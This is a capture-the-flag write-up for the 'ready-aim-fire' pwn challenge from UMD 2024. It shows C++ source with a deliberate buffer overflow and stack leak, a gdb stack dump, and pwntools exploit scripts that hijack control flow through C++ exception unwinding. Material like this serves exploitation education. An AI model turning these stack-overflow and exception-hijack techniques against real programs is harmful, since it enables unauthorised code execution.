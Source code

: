 ```yaml
---
title: ready-aim-fire
date: 2024-04-26T14:23:28+03:00
description: Writeup for ready-aim-fire [UMD 2024]
author: PineBel
tags:
  - pwn
draft: false
---
```

## Challenge Description

Firing your weapon when the spice harvester's shields are down requires exceptional timing.

### Intuition
This was a fun challenge which I solved in an unintended way, I will also present the intended solution because it's very interesting. 
We get the source code (and binary) for this challenge and we can see that we have a BOF in the fire method from the Cannon object and we also have a stack leak.

```C
void print_flag() {
    ifstream f{"./flag.txt"};
    if (!f.is_open()) {
        cout << "Failed to open flag file. Contact CTF organizers if you see this error." << endl;
    } else {
        string flag;
        f >> flag;
        cout << flag << endl;
    }
}


void direct_hit() {
    try {
        throw exception{};
    } catch (exception e) {
        cout << "Direct hit!" << endl;
        print_flag();
    }
}

class Cannon {
public:
    int bufIndex;
    char buf[32];

    Cannon(): bufIndex(0) {}

    void fire() {
        char c ;
        for (;;) {      
            cin.get(c);   
            if (c == '\n') {
                break;
            } else {
                buf[bufIndex++] = c;  // <-- overflow     
            }
        }
        if (bufIndex >= 32) {
            throw out_of_range{""};
        }
    }
};

void fire_weapon() {
    Cannon w;
    w.fire();
}

int main() {
    int target_assist;
    cout << "Quick! While the spice harvester's shields are down! Fire the laser cannon!" << endl;
    cout << &target_assist << endl;  // <-- stack leak 

    try {
        fire_weapon();
        cout << "Looks like you missed your opportunity to fire." << endl;
    }
    catch (exception e) {
        cout << "Seems like you missed." << endl;
    }
}
```

We can see that there is a constraint though, if we do a BOF, it will trigger an exception, which will be caught in the main function. Additionally, I noticed an extra function called 'direct_hit,' which suggested that we should attempt to redirect the exception thrown during a BOF into the catch block of 'direct_hit()' to print the flag (the intended solution). Unfortunately, my implementation didn't work as expected. Therefore, my next idea was to overwrite the return address of the main function with the address of 'print_flag()' after the exception was triggered.

### Solution

#### Unintended

When first trying to do the BOF with an input of length 33 the program crashed in the exception handler and printed "Seems like you missed.". 
If we give an input longer than 44 we will start overwriting the RBP and the program will crash. 
This happens because we don't return in a 'normal' way to main but through exception throwing.

We can see in the image below that the RBP value is used in the exception handler, which is called when the bufferIndex is greater than 32 (input: "A"*44 + "X"*8).

```c
0x00007ffd8a60ad20│+0x0000: "XXXXXXXX+'@"        ← $rsp, $rbp   <-- crash  
0x00007ffd8a60ad28│+0x0008: 0x000000000040272b  →  <main+270> mov rax, rbx  
0x00007ffd8a60ad30│+0x0010: 0x004023e630303030
0x00007ffd8a60ad38│+0x0018: 0x004023e600000000
0x00007ffd8a60ad40│+0x0020: 0x004023e600000000
0x00007ffd8a60ad48│+0x0028: 0x004023e600000000
0x00007ffd8a60ad50│+0x0030: 0x004023e600000000
0x00007ffd8a60ad58│+0x0038: 0x004023e600000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40283a <std::exception::exception(std::exception const&)+12> mov    QWORD PTR [rbp-0x10], rsi
     0x40283e <std::exception::exception(std::exception const&)+16> lea    rdx, [rip+0x255b]        # 0x404da0 <_ZTVSt9exception@GLIBCXX_3.4+16>
     0x402845 <std::exception::exception(std::exception const&)+23> mov    rax, QWORD PTR [rbp-0x8]
●→   0x402849 <std::exception::exception(std::exception const&)+27> mov    QWORD PTR [rax], rdx
     0x40284c <std::exception::exception(std::exception const&)+30> nop    
     0x40284d <std::exception::exception(std::exception const&)+31> pop    rbp
     0x40284e <std::exception::exception(std::exception const&)+32> ret    
     0x40284f                  nop    
     0x402850 <Cannon::Cannon()+0> endbr64 

```

To address this issue, we need a valid address for RBP after our input of length 44. This address can be the stack leak we get.
Because the stack leak address and the address where RBP is used are very close, we need to add an offset to avoid interfering with the stack when executing future instructions. Therefore, I subtracted 0x10 from the stack leak address.
The goal here is to make the exception execute normally so that we return to main and overwrite the return address of main. 
To achieve this, I needed to replicate the stack.
So I extended the payload with an address that was normally on the stack (this was found by running the program with gdb),
ensuring that the exception would execute smoothly and return in the the main function.
To complete the exploit, I added the address of the print_flag function to the end of the payload. 


```py
payload = b"a"*44 


print_flag = p64(0x4023e6) 
og_main = p64(0x4026be) # replicate stack 
 

target.recvuntil(b"Fire the laser cannon!")
recvline = target.recvline()
print(recvline)

stack_leak = target.recvline()
print(hex(int(stack_leak.decode(),16)))
stack_leak = p64((int(stack_leak.decode(),16))-0x10) 

payload += stack_leak 

payload += og_main   
payload += b"0000"+print_flag 
target.sendline(payload)
target.interactive()
```

Although I like this solution the intended one is more elegant.

#### Intended

The intended solution is similar to the unintended one but the main idea is to just overwrite the exception catch from fire() to the one from direct_hit().

```py
target  .recvuntil(b"Fire the laser cannon!")
recvline =  target.recvline()
stack_leak =  target.recvline()
stack_leak = p64((int(stack_leak.decode(),16))-0x10)
payload += stack_leak 
payload += p64(0x402547) # catch from direct_hit
target.sendline(payload)
```

Some other interesting things about the exception handler is that it works stack frame by stack frame. When an exception is thrown the current RIP searches in the .eh_frame section if it's in a catch block in that function. If it's found then it will jump to the catch block otherwise it will unwind the stack to clean it. After this it uses the stored return address to repeat this process on the next stack frame and comparing it to the .eh_frame table. The process goes on until either the exception is caught or it reaches the base exception handler.





